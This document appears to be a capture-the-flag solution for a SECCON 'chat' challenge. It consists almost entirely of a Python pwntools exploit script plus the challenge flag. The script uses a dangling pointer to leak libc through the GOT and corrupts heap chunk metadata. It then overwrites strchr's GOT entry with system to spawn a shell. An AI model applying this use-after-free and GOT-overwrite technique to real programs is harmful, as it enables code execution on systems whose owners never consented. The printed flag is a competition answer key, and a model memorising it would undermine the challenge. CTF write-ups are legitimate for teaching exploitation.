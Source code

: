 ```python exp_chat.py
    dm("A"*4, "BA") # for creating dangling pointer
    dm("C"*30, "BC")
    signout()

    signin("C"*30)
    tweet("cccc")
    signout()

    signin("B"*4)
    change_name("\t") # invalid, will remove user (user AAAA's DM become dangling pointer)

    signin("C"*30)
    change_name("\t") 

    signup("d"*7)
    signin("d"*7)
    for i in xrange(6,2,-1): # null out the address
        change_name("d"*i)

    malusr = p64(elf.got['__libc_start_main'])
    change_name(malusr) # AAAA's DM's sender->name will pointer to __libc_start_main@got.plt
    signout()

    # leak libc
    signin("A"*4)
    r.sendlineafter(">> ", "2") # show DM, leak libc
    r.recvuntil("[")
    libc.address += u64(r.recv(6).ljust(8,"\x00")) - libc.symbols['__libc_start_main']
    system_addr = libc.symbols['system']

    log.success("libc base: "+hex(libc.address))
    log.success("system: "+hex(system_addr))
    signout()

    # overflow name buf and overwrite an unsortbin chunk's size
    # enlarge the size, so we can overflow the heap buffer and fake some data structure
    signin(malusr)
    change_name("i"*24+p8(0xa1)) # padding + fake size
    tweet("fuck") # will allocate chunk from smallbin
    change_name(p8(0x40)) # make this user into right index
    tweet("7"*16+p64(0x60302a)) # allocate chunk from unsortbin, overwrite data structure. We can now start overwriting memory from 0x60302a

    # start overwriting, we wish to overwrite strchr's got
    change_name("A"*6+"B"*8+p64(system_addr)) # padding + padding + strchr's got (overwrite to system)
    r.sendlineafter(">> ", "sh\x00") # strchr("sh", 10) --> system("sh")

    r.interactive()
```


flag: `SECCON{51mpl3_ch47_l1k3_7w1*73*}`